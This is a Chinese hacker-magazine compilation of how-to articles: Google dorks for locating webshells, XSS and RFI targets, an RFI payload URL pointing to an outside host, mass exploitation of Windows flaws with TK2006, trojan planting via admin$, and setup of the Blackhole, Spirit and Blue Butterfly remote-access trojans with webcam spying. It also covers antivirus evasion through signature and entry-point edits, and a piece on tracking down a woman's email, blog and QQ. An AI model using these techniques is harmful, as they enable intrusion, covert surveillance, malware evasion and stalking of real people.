在“开始”→“运行”栏中输入 `gpedit.msc` 打开“组策略”，选择“计算机配置”→“Windows 设置”→“安全设置”→“本地策略”→“用户权利指派”（图1），双击右边的“更改系统时间”，打开“更改系统时间属性”对话框；把里面所有权限用户名全部删除，然后点击确定（图2），重启电脑即可。

这时如果我们试着在托盘处修改系统时间就会弹出如图3所示的对话框，提示“您没有适当的特权级，所以无法更改系统时间”，而且就连在 CMD 下执行 `date` 命令来修改系统日期也是无法成功的（图4）。

通过简单的设置就可以防止任何修改系统日期和时间从而使卡巴监控失效的行为，同时也防止了众多菜鸟黑客通过这个漏洞入侵你的电脑为非作歹。


## 让 Google 再次成为黑客的帮凶

lizaib

在第 4 期的杂志中，我曾经介绍了如何利用 Google 来搜索 webshell 以及其它一些最基础的利用。这几天，我又从网上淘到了两个非常不错的 Google 黑客工具，分别是 SimpleGoogle 和 Goo 清扫员。

> **名词解释：Google 黑客工具**  
> Google 黑客工具实际上是利用 Google 搜索的一种过程，它代替了手工操作，可以针对性地利用 Google 从网上寻找大量的漏洞站点，过滤筛选网址、更改网页提交参数，而且可以自定义特征码，自动验证存在漏洞的站点。

### 一、Simple Google 抓取 webshell

小菜们还记得搜索国外 PHP shell 的语法吗，这次我们来轻松批量获取 PHP webshell。先看看这段搜索语法：`ext:php intitle:"*.*.*.* phpshell" pre-release build`。ext 是查找为 php 的文件；intitle 是从标题中查找；后面的 pre-release build 是 php shell 里的一段英文。将上边的语句放入 Simple Google 的搜索框中，点击“搜索”，即可得到大量结果（图1）。右侧可以去掉重复链接，进行筛选与替换，然后通过“工具”中的 URL 变化——“替换&分解”进入新界面（图2）。在“深度挖掘”里使用“查找文本”，输入如 `c99` 等关键词，程序会自动访问并验证，最后可将结果保存成列表。


图1


图2

保存战果了，至于语法，大家可以学我那样来构造。*-*

### 二、Simple Google 也玩跨站攻击

XSS 即跨站攻击，在 X 上也曾经玩过很多次了，现在我们来演示如何寻找 XSS 站点。在图1上面的搜索框中输入：`inurl:"search" "+" "keywords=" ext:asp intitle:.asp...`


点搜索后便会出现很多网址，去掉重复的网址。选择上方的“工具”→“URL 变化”→“替换&分解”。为了方便讲解，我们看看这段跨站语句，金山词霸在线搜索跨站：`http://www.iciba.com/search?s=<script>alert("by lizaib")</script>`，形式就是“值=跨站语句”，这里的 s 就是值了。我们搜索的语句有“=”，就把等于号后面的值替换成跨站语句 `<script>alert("by.lizaib")</script>`，如图3。


设置好跨站语句后，我们让程序自动寻找，在“查找文本”栏填写“lizaib”，因为弹出的跨站对话框中会有“lizaib”语句。图3下面的网址就是结果了，选中一个网址后点击“Go”查看，跨站成功如图4。

### 三、Simple Google 巧查 robots.txt 搞定 DZ 论坛

叉子们还记得黑客 X 档案第四期爆出的 DZ 程序 pm 漏洞吧，针对 4.X-5.0 版本，zj1244 说 4.0 版本的成功率比较高。那么我们就来找这个版本的论坛。在搜索框中输入：`inurl:"forumdisplay" ext:php Powered by Discuz! 4.0.0`，`forumdisplay.php` 是 DZ 一个显示版块的文件。大家可以点击搜索框下的前进箭头，搜更多结果，重要部分是在菜单栏“工具”下的“URL 变化”。

又可以看到“替换成什么”处是 `/forum`，后面的字符全部替换成了 `robots.txt` 文件（一个纯文本文件，通过在这个文件中声明该网站不想被 robots 访问的部分，这样该网站的部分或全部内容就可以不被搜索引擎收录，或者指定搜索引擎只收录指定内容了）。接着点击开始，速度非常快，因为那是文本文件嘛，然后把结果保存下来，使用上次杂志中提供的工具来爆密码。


## 傻瓜黑客

### 四、Goo 清扫员搞定 RFI

RFI 即远程文件包含。在前几期的杂志中也曾经介绍过。这种漏洞在国外很火，既然国外玩得很火，那大家就跟着叉子们去挖 RFI 了。打开 milw0rm 网站，找到有关 RFI 的漏洞公告，如图6。叉子们看到这段英文：Remote File Inclusion Vulnerability，也就是远程文件包含漏洞了……


图6

RFI 利用的形式为：`http://www.tkuehle.de/wp-content/plugins/wordtube/wordtube-button.php?wpPATH=http://xhonker.com/x.txt?...` 这时点“添加到列表”，在检测处我们可以看到全部的网址被导入了。还有一个就是设置验证字符了，在左上的“分析”中输入“服务器”……


图7

通过这两个 Google 黑客工具的实例应用，我们可以看到其中的方法与思路才是最重要的。最后，我交给大家一份作业，也是批量搞 Web shell 哦……搜索语法：`cwebeditor inurl:(../eWebEditor/UploadFile/)...`


图8

## 让 Windows 帮我们隐藏文件

工藤柯南（独行任逍遥）

### 一、瞒天过海

使用资源编辑软件（ResHacker、Restorator 等）打开 `C:\windows\system32\shell32.dll`，找到几个空白的图标，任选其一导出……然后为文件改名，按住 ALT 键，在小键盘区依次按 1、2、7……


图1


……“扩展名”上就完成了。这样，这个文件就是一个完全空白的文件，不仔细找还是很难发现的，如图5。

优点：对不细心的人来说隐藏效果不错。  
缺点：如果给文件所在目录排序，就能看到一块空白区域；即使缩小图标也容易暴露。如果没有去掉隐藏后缀的选项，更容易跟踪。  
推荐度：★★


### 二、釜底抽薪

打开注册表 regedit，来到 `HKLM\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\Hidden\` 下，有两个项“NOHIDDEN”和“SHOWALL”，展开“SHOWALL”，此时有以下三种方法：

- 将“CheckedValue”值改为 0，会发现在“文件夹选项”里即使选中“显示所有文件和文件夹”也无法看见隐藏文件。回到“文件夹选项”发现仍然选中的是“不显示隐藏的文件和文件夹”。
- 将“CheckedValue”值改为 2，则无法显示隐藏文件，不过在“文件夹选项”里会看见“显示所有文件和文件夹”和“不显示隐藏的文件和文件夹”均被选中，如图6。
- 将“CheckedValue”删除，则“显示所有文件和文件夹”选项会消失。

优点：对注册表不熟悉的人无疑是一个致命打击（几乎所有病毒都会采取此法）。  
缺点：注册码一改就了解。懂注册表的人就能轻松突破。  
推荐度：★★★★★

### 三、柔中带刚

在任一 NTFS 分区下打开命令提示符，输入 `type 文件名+后缀>>任意文件:任意文件名+原文件后缀`，比如 `type 1.jpg>>1.exe:2.jpg`。查看 1.exe 的大小，与隐藏前相比并没有变动，不过用压缩软件就能看出端倪。查看隐藏文件的方法就是用对应隐藏文件格式的软件打开，比如图片文件就用 Windows 自带画图程序，命令 `mspaint 1.exe:2.jpg`。如果是第三方软件打开，要指定完整路径，如 ACDSee：`D:\ACDSee9\ACDSee9.exe D:\1.exe:2.jpg`。注意这里的 `2.jpg` 后缀最好跟原文件一致，否则第三方软件打开时可能出错。

优点：隐藏性极高，若不知冒号后缀，按文件名基本上不可能发现隐藏文件。  
缺点：必须在 NTFS 分区里才能用，一旦流文件被移动到非 NTFS 分区里，文件流数据将丢失。  
推荐度：★★★★

### 四、借花献佛

Windows 里有一些特殊的文件夹，找出它们的技巧是：

- 醒目，图标是独一无二的。
- 在这些文件夹里单击右键没有“新建”选项。

比如：`C:\Recycler\S-1-5-21-...-500`、`C:\Documents and Settings\Administrator\Local Settings\History`、`C:\WINDOWS\Downloaded Program Files`、`C:\WINDOWS\Offline Web Pages`、`C:\WINDOWS\Tasks`。


## 傻瓜黑客

还有一个稍微有点不同的目录 `C:\WINDOWS\Fonts`，对应的是“控制面板”里的“字体”……必须在 CMD 里用 copy 命令才能复制过去（图7），或者用第三方软件，比如 WinRAR、冰刃等（图8）。

文件复制过去后，在这些目录里是怎么也找不到的，直接在地址栏里输入文件全路径也不行……只有在 CMD 或第三方软件里才能看到，运行里输入文件全路径也能运行（图9、图10）。


图10


图9

优点：不做任何修改，无迹可寻。缺点：遇到有耐心的人每个目录都用第三方软件或 CMD 去仔细查看，那就坏了。推荐度：★★★★☆

### 五、解甲归田

一个巴掌拍不响，万人鼓掌声震天……本文就作为一个引子吧，希望各位读者能发掘出更多更好更实用的技巧，大家一起交流、互相学习，共同进步。

> （本文所涉及到的 ResHacker、Restorator 和冰刃已收录到光盘中）

## 叉子弦 MM 记

lizaib[X.S.T]

一天，叉子上网倍感无聊……突然 QQ 上一头像狂闪，原来是一小黑叉子……“何谓晒客？都闪了，晒客是什么东西？”于是我马上请教 Google 大叔，如图1。


图1

Google 告诉我，原来晒客就是分享的意思……我马上打开晒客论坛……“晒！美人”版块，这儿果然火啊……我就找她吧，如图2。

打开后发现 MM 真漂亮啊……我把她的网名放到百度上搜索，同时，她果然还注册了 N 多的论坛，如图3。


图2


图3

叉子们一定还记得 DZ 论坛为了防止灌水，差不多都设置了注册验证，比如人工验证或邮箱验证……我从搜索到的网站中打开了一个，先来看看有没有她的邮箱回复，网名很对号的哦。这次我在她回复的内容上面看到了邮箱，于是把鼠标放上去，查看浏览器最左下角的状态栏，哈哈，邮箱出来了 `collieen1205@hotmail.com`，如图4。


接下来该干什么呢？给她发邮件？晕，她要是不登录邮箱或是不给你回信，那岂不是要等到猴年马月。目前我们有两个思路：再把邮箱地址放到网上搜索，另一个就是查询她进了微软哪些服务。我先使用第一种吧，把邮箱放到百度上进行搜索。

天助我也，找到的第一个就是她的 MSN 博客了，也足够了，有微软邮箱就会有微软博客了。接着我打开博客，在个人资料上面看到她的 QQ 了，如图5。


接下来我们该做什么呢？什么，直接加她 QQ？菜菜们别心急呀，心急可是吃不了热豆腐的！为了确保 MM 不会拒绝我，我决定继续了解一下她喜欢什么。虽然刚刚她的 MSN 博客上已经有了一些详细的资料，但还不行；知道的越多越好嘛，然后 MM 才会很崇拜我的。这次要查她的 QQ 服务了，比如 QQ 空间、相册、EMAIL、游戏、交友等。现在的 MM 只要是有 QQ 的，基本上都开通了 QQ 空间，我直接在浏览器的地址栏里输入 `http://24803147.qzone.qq.com`，果然她的 QQ 空间出来了，看见她的相册了哟，真漂亮，如图6。

接下来我又在她的 QQ 空间中查看日志，她喜欢什么我就做好准备嘛。现在加她为好友，嗯，设了身份证验证，我输入了“顾客”两个字，不一会儿，她就通过了我的验证，看下面 QQ 的聊天记录哟，我和 MM 成为好朋友了（图7）。


整个过程也就 20 分钟不到，社会工程学，好玩吧！祝 X 所有的叉子们都能找到 MM！

## 菜鸟抓鸡利器——TK2006

黑侠（Black Mask）

前几天从网上找到了一个非常不错的工具 TK2006，它与传统的漏洞扫描器（比如流光、x-scan、IP-tools 等）有所不同，虽然都是通过扫描去发现这些漏洞，但是 TK2006 将一些漏洞的利用程序也添加到软件里了，当你扫描出来一溜漏洞的时候，马上就可以通过软件自带的利用程序去溢出对方，而不需要再去找这些漏洞的利用程序，并且操作也非常地简单，下面就让我们来体验一下 TK2006 的溢出功能吧。

TK2006 是免安装的软件，解压后直接打开 scanner.exe，进入口令为空，如图1。点击“设置”选择“扫描设置”，在“扫描参数”里的“扫描范围”里输入 IP 段，比如 192.168.0.1---192.168.0.254。在过滤 IP 里，你可以设置不想扫描的 IP 地址，可以是你自己的 IP，也可以是别人的 IP，随你自己填写，如图2。再来看“扫描设置”里的“普通设置”，这里可以设置要扫描的端口，默认只扫描常见端口。下面是漏洞设置，有常见的一些漏洞，如 NetBIOS 弱口令漏洞、Unicode 漏洞、.ida/.idq 缓冲区溢出漏洞、DCOM RPC 溢出漏洞、LSASS 溢出漏洞、ms06-40 溢出漏洞、ms06-70 溢出漏洞等等，大家看情况设置，如图3。注意：最大并发线程数不能大于扫描的 IP 范围，否则将不能执行扫描操作。


## 傻瓜黑客

DCOM RPC 溢出漏洞（冲击波 MS03-26）：攻击者通过向目标发送畸形 RPC DCOM 请求来利用漏洞，成功利用此漏洞可以以本地系统权限执行任意指令。攻击者可以在系统上执行任意操作，如安装程序、查看或更改、删除数据，或创建系统管理员权限的账户。

LSASS 溢出漏洞（震荡波 MS04-011）：MS04-011 针对的是 Windows LSA 的远程溢出（注：Windows LSA，这是 Windows 系统在本地的一个安全检查服务，后台是 LSASRV.DLL）。

MS06-40 溢出漏洞（魔波漏洞）：Microsoft Windows 的 Server 服务在处理 RPC 通讯中的恶意消息时存在溢出漏洞，远程攻击者可以通过发送恶意的 RPC 报文来触发这个漏洞，导致执行任意代码。

MS06-70 溢出漏洞（域漏洞）：MS06-70 溢出主要针对域名服务器有用，此漏洞利用的条件比较苛刻。

设置完毕，那么开始扫描吧。点击“扫描操作”里的“开始扫描”或按 Ctrl+K 都可以。扫描进行中，抽支烟，稍等片刻。好了，扫描结果出来了，不知道能有几台溢出的主机，点击漏洞主机，如图4。

看一下 TK 操作信息，原来 192.168.0.74 是 MS06-040 溢出漏洞，直接双击 192.168.0.74，弹出一个虚拟终端窗口（这里程序正向连接 192.168.0.74:9999 端口，如果对方开了防火墙，那么溢出有可能会失败，TK2006 并不支持反向溢出）。这个工具好就好在这个地方，只需要扫描到漏洞主机，双击一下就得到 shell，免去了繁琐的操作。溢出成功，随便输入一个命令，比如 ipconfig，点“发送命令”，怎么样，命令成功了吧，如图5。


这里可以查询好多的信息，比如端口信息、计算机名字信息、连接的弱口令、共享信息、系统指纹等等。接着我们双击“用户信息”，再双击“查看用户信息”，弹出一个输入用户名和密码的对话框，输入用户名和密码，确定，就可以查看对方计算机上的所有用户了，如图8。


双击“组信息”，在弹出的对话框里输入用户名和密码，就可以看到所有的用户组了，如图9。

还可以查看对方的服务并且还可以修改（这个要根据对方系统设置的情况而定）。双击“服务信息”，在弹出的对话框里输入用户名 123 和密码 123，对方的服务一下子就全部给列出来了，随便选择一个服务，右击可以将其启动或停止，如图10。

再看看共享，双击 `\\192.168.0.74\es`，输入用户名和密码，在右边就可以看到对方的共享文件夹了，这里你可以下载或删除对方的文件，如图11。

打开工具菜单，选择“终端管理”，输入 IP 地址 192.168.0.133，用户名 administrator，密码为 0573，端口就是开启 TELNET 的端口，TELNET 默认的端口为 23，这里我们可以自己设置，比如 82，然后点击“启动 TELNET”，就会弹出一个 `\\192.168.0.133\IPC$` 已成功断开的对话框（因为前面扫描的时候 IPC 连接已经存在，所以要事先给断开），如图12。


点确定，接着又会弹出一个 192.168.0.133 IPC 连接成功的对话框，再确定。最后会弹出一个 TELNET 打开成功的对话框，如图13。


打开 CMD，输入命令 `telnet 192.168.0.133 82` 回车，输入用户名和密码，直接绕过 NTLM 认证，到对方 C 盘了。输入命令 `ipconfig`，看到对方的电脑了吧，如图14。

再来看看 TK2006 IPC 木马种植机，打开“工具”里的“木马种植”，输入 IP 地址 192.168.0.133，用户名 administrator，密码 0573，点击“浏览”，选择你要复制到对方电脑的 EXE 程序，在复制位置里输入共享地址，或点击“检测共享”会自动测试出对方的共享，如图15。最后点开始，就可以把 EXE 程序复制到对方的 admin$ 里，并且运行了。


打开工具里面的“对方死机”，输入你要攻击的 IP 地址和本机的 IP 地址，如图16。


这是一个 MS06-035 的攻击程序，如果对方没有打 MS06-035 的补丁，被攻击的主机会立刻蓝屏，危害性太大，希望大家小心使用。

TK2006 还自带了一个 UDP 端口测试的功能，打开工具里面的“UDP 端口”，输入要测试的 IP 地址，端口可以自己设置，也可以为指定端口（即程序默认设置的端口），如图17。


并且还是 System 权限的，如果在大型的局域网里测试这个批量溢出的话，效果一定会更好的。废话不说，来看看这个软件的其它功能。点击“存活主机”，如图6。

还是有不少的主机开了共享，还存在弱口令。随便找一台有弱口令的主机，比如 192.168.0.74，用户名是 123，密码是 123，双击 192.168.0.74，如图7。

TK2006 最大特色是它的批量溢出，至于软件的其它功能和阿 D 网络工具包的使用差不多，大家用起来应该很熟悉了。TK2006 在扫描的时候速度有点慢，而且在扫描的过程中，执行其它操作时软件容易假死，希望作者以后能开发出功能更强更稳定的软件来。

（本文所涉及到的 TK2006 已被录到光盘中）

## 2007之又见黑洞

无敌小龙（张博）

在网络上永远不会感到寂寞，各种新技术风起云涌。在沉寂了一年之后，大侠“寂静”又推出了他的黑洞2007版，这个版本给人的感觉就是开发技术更加成熟，服务端上线也更加稳健。

### 客户端的设置

### 第一步，配置总体参数

如果我们是第一次运行 Client.exe 程序的话，会直接弹出“系统设置”菜单。这个主要是对客户端的反弹连接端口、连接密码以及屏幕传输进行设置。监听端口我填的是 9999（为了确保不和其它端口相冲突，可以填写大于 1024 的端口），一定要输入连接密码，否则就不让进行下一步的设置（图1）。

> **小知识：反弹连接**  
> 客户端打开一个端口进行监听，然后服务端（被控制端）主动来连接客户端。这样的连接方式，可以躲过对方的防火墙，提高连接的成功率！

远程屏幕选项设置有 65536 色、256 色和 16 色，颜色越清晰，传输的数据量越大，传输速度也就越慢，通常使用默认设置就可以了（图2）。点击确定后会出来一个关于协议的界面，等待几秒钟后黑洞的主界面就会出来了。

### 第二步，更新 IP

在黑洞主界面上方的工具栏中点击第一个“更新 IP”按钮，来到 IP 的设置窗口。它分为三种更新方式：FTP 更新、ASP 更新和专用上线系统更新（专用上线系统更新需要收费注册为会员才能使用）。

- **1. FTP 更新**：这是老牌的更新 IP 方式，简单明了，长盛不衰。填写好 FTP 主机端口以及用户名密码、存放 IP 文件和 HTTP 访问地址，选择本机 IP 地址，点击“更新到服务器”，即可完成更新（图3）。


### 2. ASP 更新

首先把黑洞2007 的 ASP 上线系统目录下的四个 ASP 文件上传到你的网站空间上去（图4），如果不使用这个 ASP 上线系统来更新的话，就会出现更新错误的提示（图5）。conn.asp 是数据库的链接文件，ipdat.asp 是数据库文件，setip.asp 文件是用来通过 HTTP 方式传送 IP 地址和端口等信息的文件，getip.asp 是输出 `http://ip:port` 格式的上线信息文件。

因为我把上线的 ASP 文件上传到了网站根目录的 blackhole 文件夹下，所以在“设置 IP 的 ASP 地址”处填入 `http://winsock.cn/blackhole/setip.asp`，“获取 IP 的 ASP 地址”填写一个可以接收 IP 信息的地址。


黑洞的控制功能：按键、变声、屏幕控制、屏幕查看、文件管理、视频监控、远程终端、重启关机、远程卸载等常用功能全部包括了。这些功能大家在使用过程中都会轻易掌握的。

黑洞2007 的所有数据传输均使用 AES 加密算法加密，保证传输机密数据时不会被嗅探从而导致泄密。

### 小知识：AES 算法介绍

美国政府信息处理标准 197（AES-FIPS 197）是美国国家标准技术研究院（NIST）公布的新高级加密标准。AES 算法能够使用 128/192/256 位密钥，分组长度为 128 位。

### 服务端的设置

### 一、生成木马服务端

在黑洞主界面最左上方的“文件”菜单中，选择“生成安装版本服务端程序”……在“连接选项”中选择“从 URL 获取连接 IP 和端口”，在下面 URL 中输入获取 IP 和端口信息的 ASP 文件，最后点击“生成”即可。

### 二、生成协助型服务端

在“文件”菜单中选择“生成手工运行版本服务端程序”，保存后运行生成文件，可得到如图9所示界面。该方式可让控制者自定义控制权限，并通过 URL 获取连接参数。


## 超级迷你木马 Spirit

提到木马程序，大家会想到灰鸽子、黑洞、PcShare 等。本文介绍一款服务端极小的木马——Spirit，服务端程序可做到很小，适合网页木马场景。

### 一、配置服务端

首先运行 Spirit 客户端，在“文件”菜单中选择“生成服务端”，配置反弹 IP、端口、注册键值和安装文件名等，点击“生成”即可得到服务端程序（图1）。


### 二、远程控制操作

点击客户端“查看”菜单中的“设置”，在“监听端口”窗口配置连接端口。运行服务端后，客户端会提示上线；在上线列表中选择目标并右键“传 DLL 文件命令”，即可上传控制功能 DLL 到服务端。

## 骇马记


图2


图3


图4

这也就是该木马服务端程序为什么这么小的主要原因，不上传的话我们就无法进行远程控制操作，这一点和国产木马 PcShare 非常相像。如果有多台远程服务端上线，可以通过“批量管理”菜单中的命令来执行。

点击右键菜单中的“连接”命令，从弹出的窗口中可以对远程计算机的文件、进程、窗口、服务和注册表等内容进行控制管理。点击窗口中的“Files”标签，就能对远程磁盘中的文件进行上传、下载、运行、更名等基本的文件管理操作（图3）；通过“Processes”标签可以查看远程系统中当前的进程情况，并可以随时结束不需要的进程；通过“Windows”标签可以查看远程系统中打开的窗口情况，以及进行最大化、最小化、正常关闭等操作，还可以通过“Kill”命令强行关闭某个窗口；通过“Services”标签可以查看远程系统服务，并对这些服务进行开始、停止、删除等操作；通过“Registry”标签可以对远程注册表进行管理，包括新建键值、修改内容、删除键值等功能。

测试完上面这些基本的控制功能后，我们再点击右键菜单中的“媒体”命令，从弹出的窗口就可以查看远程计算机的桌面情况，以及通过远程摄像头捕获的信息。在“Screen”标签中点击“Capture”按钮，可以及时监控远程桌面中的内容（图4），可惜该木马只能进行监控，并不能对监控信息进行保存。点击“Camera”标签后再点击“Capture”按钮，就会自动检测对方系统中是否安装有 USB 摄像头，如果对方安装的话，那么无论对方是否打开，我们都可以强行打开摄像头对其进行远程监控。

### 三、小结

Spirit 作为我所见过的最迷你的木马，不但保证了木马程序最常用的控制功能，而且运行也非常稳定。超级迷你的服务端程序作为该木马的亮点，无论是用于网页木马还是用于远程溢出后的上传都是非常适用的，所以强烈推荐各位木马爱好者珍藏这款超迷你的木马。

## 捆，捆，捆，看来鸟的无限捆绑！

100%纯情男生

近来闲着无聊，研究了一下捆绑机，感觉以前杂志上介绍过的 SuperSheep 这款捆绑机还是非常不错的，捆绑后还可以加壳。另外，在使用捆绑机的过程中发现了无限捆绑的技巧，在此就与各位菜鸟分享一下。首先我们选择两个文件捆绑，就使用 cmd.exe 和 NOTEPAD.exe（记事本）吧。不要勾上“合并后自动压缩”，选择 Temp 目录，捆绑后得到了一个文件 stub.exe（图1）。运行 stub.exe，分别打开了 CMD 和记事本，查看任务管理器可以看出 cmd.exe 和 NOTEPAD.exe 分别命名为 temp1.tmp.exe 和 temp2.tmp.exe（图2）。


图1


图2

我们继续捆绑第三个文件，把刚才捆绑生成的 `stub.exe` 文件命名为 `1.exe`，然后和捆绑机捆绑起来运行（图3）。我发现只有捆绑机正常运行，而 `1.exe` 却运行失败（图4）……结论：捆绑文件 `stub.exe` 运行后会释放出捆绑时的文件并按顺序命名为 `temp1.tmp.exe` 和 `temp2.tmp.exe`，二次捆绑时因命名冲突导致失败。


既然原因已经找出来了，现在懂得怎么捆绑多个文件了吧？对了，就是重命名！下面我就教大家修改捆绑文件，让它释放出类似文件不再冲突。使用 OD 打开第一次捆绑文件，定位并二进制编辑，将 `temp1.tmp.exe` 和 `temp2.tmp.exe` 改名；注意字符串长度与 `00` 终止位问题（如图5）。


我再来教大家如何制作和被捆绑程序一模一样的图标和版本信息。以系统程序 `ctfmon.exe` 为例，先用 Restorator 导出图标（图6），图标最好导出 48×48；版本信息则新建资源“版本”并导入（图7），再加个壳就更完整了（图8）。


有攻就有防，虽然修改后的文件在外表和运行上都很完美，但毕竟是捆绑文件。运行前可用 Restorator 查看资源：若看到如 `DNA1`、`DNA2` 等可疑资源（图9），则说明可能被捆绑；也可用 SSM 监控运行行为。


## 黑客木马小常识

### 什么是远程控制

使用本地电脑通过网络远程控制另一台电脑，在远程电脑上实现本地操作，这就是远程控制。远控软件与木马在功能上有相似性，但目的不同：前者用于管理维护，后者用于非法控制。远控软件通常不会刻意隐藏，而木马常具备较强隐蔽性。

## 轻松逃杀巴布亚行

今天我们制作免杀的对象是彩虹桥（Bifrost），这款木马你一定非常眼熟吧，因为在以前的《黑客X档案》上曾经详细介绍过它的使用。

测试使用的杀毒软件为卡巴斯基。彩虹桥和其它远程控制软件不大一样，它的服务端配置文件和客户端整合在一起了，我们需要把它分离出来，用到的工具就是 Restorator2004。

使用 Restorator2004 打开客户端程序，在资源树那一列点开“+”号，看到有一个名为 STUB 的，里面有两个资源 155 和 156（图1）。155 是用 FSG 1.33 加壳了的服务端配置文件，156 是 VC 写的源程序。选择 156 这个没有加壳的文件进行免杀，将它提取为 156.EXE（图2）。


我们来给它穿上一层 VC++ 的彩衣，打开木马彩衣，载入 156.EXE，在区段名随便填上一个数值就可以，然后点“穿上”（图3）。


修改完后保存一下，我保存为 156(1).exe。下面就要开始定位特征码了，我使用的是 CCL 点位（关于 CCL 的具体使用，详见以前 X 档案），定位出来的特征码如图4所示。

下面的任务就是去修改它们了，使用 16 位编辑器 WinHex 打开文件，找到起止偏移的地址（图5），我找的是 00009225 这一处特征码，数据是 6A，表示的是 `j`，我们给它减 20，改成 4A，就是 `J`。保存一下，使用卡巴来检测一下，看是不是免杀了，如图6。


继续我们的下一步，使用 OD 载入 156.exe，将文件头修改一下，按顺序刷下来就可以，依次是：

```asm
PUSH EBP
MOV EBP,ESP
MOV ECX,33
PUSH 0
PUSH 0
DEC ECX
JNZ 入口点（可以在下面的 JMP 处找到这个入口点）
JB 入口点（这里是将下面的 JMP 改为 JB 入口点，JNB 入口点）
JNB 入口点
```


下面我们把免杀的 156.exe 导回源程序里，如图7，然后就可以用它来生成一个服务端文件了，可以免杀，当然内存也是免杀。

在前边的那个资源树里，大家也看到还有一个 155 文件吧，我们再对这个文件进行一下 DIY。这是一个压缩过的文件，我们可以把刚才做出来的 156.exe 文件压缩一下，再导入回去，这样可以省去生成以后再加壳的麻烦。

为了让大家能够更好地掌握本文所介绍的方法，我专门制作了一个教程，大家可以参照着教程来学习一下。还有就是特征码，各位在找的时候可能和我找出来的不一定完全一样，大家可以多试几个，总会有一个可以的。

> “趁蝴蝶”

## 在肉鸡中飞舞的痛并快乐着

关于远程控制软件，相信大家都听说过 VNC、RADMIN、DAMEWARE 的大名，这些软件也经常被菜鸟们当作木马来使用。今天我就再给大家介绍一款全新的远程控制软件——蓝蝴蝶远程控制。

### 一、配置服务端程序

不管是远程控制软件还是木马程序，要想成功地实现远程控制，都必须先配置一个服务端程序，蓝蝴蝶远程控制软件也不例外。运行蓝蝴蝶的客户端程序，点击工具栏中的“配置木马”按钮来配置服务端程序。首先在“上线地址”栏填入服务端程序反弹连接使用的地址，连接地址可以采用域名、IP 地址、网页地址等方式；接着在“插入进程”栏选择把木马插入到 IE 浏览器或资源管理器的进程中；在“安装名称”和“DLL 名称”栏设置服务端文件和 DLL 文件的名称（图1）。设置完成后，点击“生成服务端”按钮就可以创建新的服务端程序了。

### 二、控制功能简介

运行客户端程序，选中“开始监听”选项，如果服务端程序被运行的话，稍等片刻就会在客户端程序的肉鸡列表中出现了。从列表中选择上线的电脑，点击右键，就可以看到所有的远程控制命令了（图2）。

#### 1. 文件管理器

“文件管理器”命令用于对远程系统中的文件进行管理，用户可以通过选择下拉列表框指定文件夹路径，在文件列表区点击鼠标右键将弹出新建文件夹、删除文件、重命名文件等操作。文件传输基于自动断点传输模式，并且通过“传送查看”命令可以查看到文件传输的进度过程。另外还可以远程执行文件，拥有正常运行以及隐藏运行两种方式（图3）。

#### 2. 进程管理器

“进程管理器”命令用于查看、终止远程计算机中运行的进程，如果用户发现远程计算机的进程中包含了网络防火墙或杀毒软件的进程，就可以通过“终止”命令来终止它们。还可以查看进程的内存信息、路径和保存进程文件（图4）。

#### 3. 远程注册表

“远程注册表”命令能够获取远程计算机中的注册表信息，并可以对其进行修改管理等操作。该命令的操作方式和“文件管理器”差不多，也是先通过下拉列表框选择注册表路径，然后用户就可以新建、删除、重命名注册表项，以及对注册表的键和键值内容进行修改（图5）。

#### 4. 网络管理

“网络管理”命令包括 TCP 通道、远程端口转发、网络浏览器这三项。“TCP 通道”实际上就是一个端口映射命令，通过它可以将本地系统的端口映射到远程系统中，这样可以让局域网中的计算机直接和外网的计算机进行数据交换，从而实现一些局域网系统无法实现的网络服务。另外通过“网络浏览器”命令可以查看到远程计算机中的共享资源，并且还能查找到局域网中共享的资源，这可是别的远程控制软件不常有的功能。用户还可以将远程计算机中指定的目录映射到本地系统中，这样用户就可以方便地管理共享磁盘中的文件了（图6）。

#### 5. 远程 SHELL

“远程 SHELL”命令可以对远程计算机进行 Telnet 操作，在功能上和使用方法上都和本地系统的命令提示符差不多。首先选择窗口中的“开启”命令，接着在命令提示符后面输入 cmd 命令并回车，该命令将传输到远程计算机中，执行后的结果将传输给我们（图7）。

#### 6. 语音通信

“蓝蝴蝶”还拥有“语音通信”功能。在右键菜单中选择该命令后，在弹出的“语音通信”窗口中设置“采样频率”和“设备”选项，再选择“开启”，这样我们就可以听到远程计算机发出的声音，比如播放的歌曲、用户的聊天等等。

#### 7. 视频查看

在远程计算机安装有摄像头的前提下，通过“视频查看”可以获取远程计算机的摄像头画面。客户端程序会自动判断服务端有无视频设备，如果没有的话在使用该命令的时候就会提示用户。

### 三、清除木马

通过检测，我发现“蓝蝴蝶”是利用注册表的 Shell 项进行启动的。由于该启动项是系统重要的启动项，所以直接删除是不行的，只能将它恢复成系统的默认值。打开注册表来到 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\winlogon`，将“数据”删除（如 `C:\windows\system32\xiaozi.ecx`），保留“Explorer.exe”即可（图8）。然后打开任务管理器，选择 IE 浏览器进程或 Explorer.exe（根据木马插入的进程），将其结束掉，最后就是删除 System32 目录下的服务端文件。

不记得从何时开始，国内出现了这么多全新的木马程序，就在我以为又会迎来一个全新的木马时代时，却发现越来越多的木马出现了相同的现象，不仅是界面相似，就连在功能上也是非常雷同，可以说是毫无新意。真希望以后会多出现一些类似于黑洞、灰鸽子、PcShare 这样优秀的木马，这样才会带给我们这些菜鸟惊喜呀。（本文所涉及到的蓝蝴蝶远程控制软件已收录到光盘中）

## MyCCL——今天你免杀了吗？

小七

对于黑客来说，木马免杀是个永恒的话题，而修改特征码免杀是一种“从根本上解决问题”的方法。经常用来定位特征码的工具有两款——CCL 和 MYCCL，本文我就将向大家详细介绍 MYCCL（个人喜好）的使用方法（图1）。

